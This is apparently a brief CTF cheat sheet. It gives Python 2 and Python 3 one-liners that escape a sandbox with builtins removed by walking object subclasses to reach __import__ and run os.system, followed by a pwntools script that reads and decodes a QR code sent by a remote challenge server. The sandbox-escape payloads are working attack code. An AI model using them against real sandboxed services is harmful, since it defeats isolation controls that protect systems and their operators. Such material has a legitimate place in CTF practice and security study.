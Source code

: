# Python

### Bypass python builtins none

#### Python2

```python
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('whoami')
```

#### Python3

```python
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')
```

### QRCode from Terminal Output

```python
#!/usr/bin/env python2
from pwn import *
from subprocess import check_output
import subprocess

p = remote('host',1234)
img = p.recvuntil("[+]")
print(img)
subprocess.call("gnome-screenshot -f x.png", shell=True)
output = subprocess.check_output("zbarimg x.png ", shell=True)
print(output)
p.interactive()
```

